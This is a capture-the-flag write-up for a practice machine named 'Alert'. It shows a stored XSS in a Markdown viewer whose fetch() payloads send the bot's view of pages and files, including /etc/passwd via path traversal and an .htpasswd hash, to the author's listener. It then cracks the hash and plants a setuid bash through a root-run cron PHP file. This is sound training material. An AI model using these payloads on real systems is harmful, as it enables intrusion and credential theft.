



---
tags:
  - Linux
  - HTTP
  - XSS
  - SSRF
  - Cron-job
---

... is a easy HTB machine which has an `XSS` vulnerability. The files including the `JS` are stored server-side and can be forwarded to a bot which executes them. Using that, the `apache2` config can be read using the `fetch()` method in `JS`, which eventually leads to `ssh` credentials. For privilege escalation, the user has write permissions on a file which gets executed as `root` as a cron job.

### Reconnaissance
The tool `nmap` is used to do the initial reconnaissance of any target, as it very reliably sends packets to specific ports of the target to verify if they are open, closed, or filtered. The following command is used as a standard `nmap` scan:
```bash
sudo nmap -sCV $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: optional, but makes the scan a bit faster and stealthier, as no TCP connect() is used.
# -sC (or --script=default): uses the default scripts of nmap. can quickly discover simple vulnerabilities, such as anonymous logins.
# -sV: further scans open ports to determine the actual service which is running on them, as an open port 80 does not directly imply a HTTP service.
```

the output of `nmap` tells us this:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://alert.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
This is a very typical setup of a web-vulnerability type CTF. The output of the `http-title` `nmap` script tells us that the domain name `alert.htb` is present. To quickly edit the `/etc/hosts` file for local DNS name resolution without a public DNS server, the following command appends an entry to that file:
```bash
echo "$IP alert.htb" | sudo tee --append /etc/hosts
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# echo "...": writes the specified string into STDOUT (terminal)
# | : redirect (pipe) the STDOUT of the left command into the STDIN of the right command
# sudo tee --append /etc/hosts: write the received STDIN into a file without overwriting it. requires sudo, as that file is critical to the system  
```

After visiting `http://alert.htb`, i am greeted with a `Markdown Viewer` title page. I can upload a file and then render the `Markdown` in the browser. The other tabs of this web page include a `Contact Us`, `About Us`, and `Donate` tab. The `view-source` and the browser dev-tools do not show anything interesting.

It is noteworthy however, that this page uses an `URL parameter` to fetch the specific page. I tried accessing files on the file-system, but with no luck. So i tried a dictionary attack against this parameter to find out if there are any resources which are being hidden using the following `ffuf` command:
```bash
ffuf -w /usr/share/dirb/wordlists/common.txt -u "http://alert.htb/index.php?page=FUZZ" -fs 690
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -w: specify wordlist file
# -u: URL of the target. the FUZZ word gets replaced with each entry of the wordlist.
# -fs: filter by response size, as all responses with 690 are "Page not found" errors 
```

This finds all endpoints which i have found (`about`, `alert`, `contact`, `donate`), but it additionally finds the endpoint `?page=messages`. This returns a blank page instead of the `Page not found error`, which is strange.

While i am at it, i decided to also do some `VHost` fuzzing using the `subdomains-top1million-5000.txt` from `SecLists` (for a more in-depth explanation, see my write-up on the `Three` challenge!):
```bash
ffuf -w ./subdomains-top1million-5000.txt -H "Host: FUZZ.alert.htb" -u http://alert.htb
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -w: specify wordlist file
# -H: add specific header. Here, the header "FUZZ.alert.htb" is chosen. the FUZZ word is replaced by each entry of the wordlist!
# -u: URL of the target
```

This command has found the subdomain `statistics.alert.htb`. I also add this domain to the `/etc/passwd` file using this command:
```bash
sudo sed -i "s/$IP alert.htb/$IP alert.htb statistics.alert.htb/" /etc/hosts
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: required, as we are editing /etc/hosts
# -i: edit the file in-place and overwrite it
# "s/old_word/new_word/": replaces each occurance of old_word with new_word
# /etc/hosts: file we want to edit
```

This subdomain is password-protected. As default credentials (e.g. `root:root`, `admin:password`) do not seem to work, i will investigate the main domain first.

### Initial Exploitation
I want to test the intended functionality of this `Markdown Viewer` functionality, so i prepare a `test.md` which holds typical markdown features:
```markdown
# Hello
Hello `world`.

1. This
2. `is a`
3. **list**

```
The `h1` gets rendered, but it has troubles with the list and the code parts. Additionally to rendering my `md` file, i receive a `Share Markdown` button. Clicking this gives me a link (specified in the URL get parameter `?link_share=6a291c36c4aae8.38621206.md`) which i can share with others so they can see my markdown creation. I try messing with this value, as i may be able to view other files, like `/etc/passwd`, but it doesn't work.

As i essentially control what is being displayed on the page, i try payloads to test for `XSS` and `SSTI`:
```markdown
# Hello
<b>Hel</b>lo `world`.

1. This
2. `is a`
3. **list**

<script>console.log("XSS!");</script>
{{7*7}}
${7*7}
```
In this modified `test.md`, i added the following things:

- `HTML`-tag `<b>` : to see if the text is displayed in bold
- `Javascript`-tag `<script>`: to see if the provided script gets executed
- `SSTI`-payloads `{{7*7}}` and `${7*7}`: to see if a scripting engine is used in the back-end which evaluates my input

And this was the result:


Sadly, the `SSTI` payloads did not execute, but the `Hel` gets displayed as bold text, and the Debugger console shows the message `XSS!`, which means it executed!

`XSS` can be very valuable if someone else views your custom `JS` code, as you can coerce them into sending `HTTP` requests, or steal their `DOM` objects (e.g. `cookies`). At this point i remember the `Contact Us` page. Maybe someone clicks the link i share (the one from `Share Markdown`). To find out if anyone views my cool custom markdown file, i edit it as follows:
```markdown
# Hello
<script>fetch("http://<my-IP>:1337/test")</script>
```
To verify that it works, i render it myself. And surely enough, i send a `HTTP` request to myself. I prepare the link and put it into the `Message` part of the `Contact Us` page. And it works! i receive a request from the target.

Using this knowledge i edit the `test.md` to have the following content:
```markdown
# Hello
<script>
fetch("http://alert.htb/index.php")
  .then(response => response.text())
  .then(data => fetch("http://<my-IP>:1337/?file=" + btoa(data)))
  .catch(err => console.error(err));
</script>
```
This new `javascript` code essentially sends a `HTTP` request to `http://alert.htb/index.php` from the person who is viewing it, and reroutes the output to my `python3 -m http.server 1337`. What this achieves is that i can view the pages with the eyes of the person who clicks this!

This does NOT work if this `<script>` resides on my server, as that changes the `location.origin` to my machine, which results in a cross origin request. A cross-origin request must be specifically allowed using the `CORS HTTP` header `"Access-Control-Allow-Origin"`, and i cant force the server to use that! So it is not possible to host a `test.html` file which uses the same principle of exfiltrating the data received from a request (i've tried...).

I now receive two `base64` bunches of data. One from my viewing of the `test.md` and the one which i got after the bot clicked my share markdown link. To find the difference between them, i use the following bash commands:
```bash
echo "my-B64..." | base64 -d > myIndex.html
echo "victim-B64..." | base64 -d > victimIndex.html
diff myIndexhtml victimIndex.html
```

The difference between these two is that the victim can see this, which i can not:
```html
<a href="index.php?page=messages">Messages</a>    </nav>
```
That is the endpoint i found using the `ffuf` scan from before. Maybe the victim bot is able to see more than just a blank page. To test this theory, i add the `?page=messages` parameter to the original `fetch()` call and send it again. 

And truly, the victim sees this instead of a blank page:
`<a href='messages.php?file=2024-03-10_15-48-34.txt'>`
When viewing this file from the victim's eyes, it proves to be empty. But what this reveals is an `GET parameter` which is allowed to specify a file which can be read. I try changing the `fetch` to this call:
```json
fetch("http://alert.htb/messages.php?file=../../../../../etc/passwd")
```
And after decoding the received `base64`, i see the contents of the servers `/etc/passwd`! Normally, i would now try a word-list attack with common files on the linux file-system, but that would be a struggle, as i need to complete these steps for each entry in the wordlist:

1. Edit the `test.md` to `fetch` a new file
2. Upload the new file to the `Markdown Viewer` to create a new share link
3. Post the new share link in the contact us tab
4. Receive the `base64`, and decode it.

It would be possible in a `python` script, but sending singular requests to possible files is a better approach for now.

Due to the info in the `nmap` scan `http-server-header: Apache/2.4.41 (Ubuntu)`, i know that the `http` service is being hosted by `apache2` and that there is a `VHost` configured on `statistics.alert.htb`. A quick google search reveals that `VHost` configurations on `apache2` are typically located in the file:
`/etc/apache2/sites-available/000-default.conf`.
Which is why i try to read that file. The `<VirtualHost>` entry for the `statistics.alert.htb` shows me something very interesting:
```bash
<VirtualHost *:80>
    ServerName statistics.alert.htb
    DocumentRoot /var/www/statistics.alert.htb
    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>
    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>
    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```
I now know that the `VHosts` directory is located at `/var/www/statistics.alert.htb`, and that the authentication file `.htpasswd` is in that directory. I quickly grab that file using the `test.md`, and it reveals the following:
```bash
albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
```
I save the hash without `albert:` into a `hash.txt` file. To identify this type of hash, i looked up a [list of hashcat modes](https://github.com/unstable-deadlock/brashendeavours.gitbook.io/blob/master/pentesting-cheatsheets/hashcat-hash-modes.md) and `CTRL+F` for `$apr`. The hash got recognized as a `Apache apr1 MD5` hash (mode `1600`).
I use the following command to crack this hash:
```bash
hashcat -m 1600 ./hash.txt ./rockyou.txt
```
And it reveals the password to be `manchesterunited`! These credentials give access to `albert's` `ssh` and to the `statistics.alert.htb` `VHost`! Either way, the `statistics.alert.htb` host does not provide useful information right now.

### Privilege Escalation
I try these things to look for easy privesc vectors:

- `sudo -l`: mis-configured `sudoer` file
- `netstat -tulnp`: hidden services only accessible via localhost
- `id`: user belonging to a weird group

`id` shows that `albert` is a part of the `management` group, but that is not a standard for any known program. `netstat -tulnp` reveals a private `http` service on port `8080`! I can access it by modifying the `ssh` login as follows:
```bash
ssh -L 1337:localhost:8080 albert@$IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# 1337: port on our machine which gets opened. If talked to, ssh will forward it to the target port. can be any port.
# localhost: the remote host we want to reach. NOT $IP, as we want to be localhost (127.0.0.1) on the target.
# 8080: the remote port which gets interacted with when interacting with port 1337 on the local machine.
```

After logging on with these port forwarding options in `ssh`, accessing `http://localhost:1337` forwards the traffic to `http://localhost:8080` inside the target. 

The web site shows an interface for a `Website Monitor`, but leaves no option for interacting with it. I try to find more information on this process by issuing:
```bash
ps aux | grep mon
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# ps a: show processes for all users, not only current user
# ps u: display output in user-oriented format (USER,PID,...)
# ps x: include background processes
# | : redirect (pipe) the STDOUT of the left command into the STDIN of the right command
# grep: filter STDIN for a word
```

I find out that this process was started by `root` using the command:
```bash
/usr/bin/php -S 127.0.0.1:8080 -t /opt/website-monitor
```
This shows me where the files of this tool are located, so i investigate further using `ls -la /opt/website-monitor`. One thing that stands out is the `config` directory:
```bash
drwxrwxr-x 2 root management  4096 Oct 12  2024 config
```
This means that it belongs to the user `root` and the group `management` (which `albert` belongs to!). The `drwxrwxr-x` tells us the following:

- `d`: directory, not a file
- `rwx`: The user `root` can `read`, `write` and `execute` this directory.
- `rwx`: The group `management` can `read`, `write` and `execute` this directory.
- `r-x`: Every other user can only `read` and `execute` this directory.

Within this directory, a file called `configuration.php` resides. It doesn't do much (...yet):
```php
<?php
define('PATH', '/opt/website-monitor');
?>
```
As this application gets ran by `root`, editing this file may result in privilege escalation, if it gets executed again. To find out exactly if this file is used anywhere, i find out where it gets referenced using this `grep` command:
```bash
grep -r "configuration.php" /opt/website-monitor
```
It is used in `monitor.php`, which indicates in a comment, that this file gets executed as a `cron`-job by root!
```php
<?php
define('PATH', '/opt/website-monitor');
system('cp /bin/bash /tmp/rootme; chmod u+s /tmp/rootme');
?>
```
This creates a `/tmp/rootme` binary which is a copy of `/bin/bash` with the only change that it has the `SetUID` bit set (it executes as `root`). This instantly creates the file. To get a root shell, use the binary with the `-p` flag for a `root` bash:
```bash
./rootme -p
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -p: do not reset effective user id! keep root
```

### Summary

Below is a visualized summary of the exploitation steps used in this machine to gain RCE.



The privilege escalation to the user `root` worked as follows:

